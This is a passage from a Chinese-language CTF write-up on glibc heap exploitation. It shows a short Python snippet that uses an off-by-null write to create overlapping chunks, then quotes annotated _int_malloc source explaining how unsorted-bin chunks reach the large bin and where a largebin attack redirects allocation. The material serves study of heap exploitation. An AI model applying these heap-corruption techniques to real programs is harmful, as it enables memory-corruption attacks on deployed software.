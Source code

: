 ​    接下来用同样的方法对第二个大小为0x510的chunk进行overlapping。

 ```python
 free(4)
 edit(3,'a'*0x18) #off by null
 add(0x18)        #4
 add(0x4d8)       #8 
 free(4)
 free(5)          #overlap
 add(0x40)        #4 
 edit(8, 'aaaa')
 ```



#### 2.放入large bin

​    那么如何将unsorted bin中的chunk放入large bin呢？下面是glibc判断

 ```c
 while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))//从第一个unsortedbin的bk开始遍历
 {
     bck = victim->bk;
     size = chunksize (victim);
     if (in_smallbin_range (nb) &&//<_int_malloc+627>
         bck == unsorted_chunks (av) &&
         victim == av->last_remainder &&
         (unsigned long) (size) > (unsigned long) (nb + MINSIZE))    //unsorted_bin的最后一个，并且该bin中的最后一个chunk的size大于我们申请的大小
     {remainder_size = size - nb;
      remainder = chunk_at_offset (victim, nb);...}//将选中的chunk剥离出来，恢复unsortedbin
     if (__glibc_unlikely (bck->fd != victim))
             malloc_printerr ("malloc(): corrupted unsorted chunks 3");
      unsorted_chunks (av)->bk = bck;    //largebin attack
     //注意这个地方，将unsortedbin的bk设置为victim->bk，如果我设置好了这个bk并且能绕过上面的检查,下次分配就能将target chunk分配出来
     if (size == nb)//size相同的情况同样正常分配
     if (in_smallbin_range (size))//放入smallbin
      {
         victim_index = smallbin_index (size);
         bck = bin_at (av, victim_index);
         fwd = bck->fd;
      }
      else//放入large bin
      {
          while ((unsigned long) size < chunksize_nomask (fwd))
          {
             fwd = fwd->fd_nextsize;//fd_nextsize指向比当前chunk小的下一个chunk
             assert (chunk_main_arena (fwd));
           }
           if ((unsigned long) size
                           == (unsigned long) chunksize_nomask (fwd))
                         /* Always insert in the second position.  */
              fwd = fwd->fd;
           else// 插入
           {
             //解链操作，nextsize只有largebin才有
             victim->fd_nextsize = fwd;
             victim->bk_nextsize = fwd->bk_nextsize;
             fwd->bk_nextsize = victim;
             victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
            }
           bck = fwd->bk;
       }
    }
  else
      victim->fd_nextsize = victim->bk_nextsize = victim;
 ```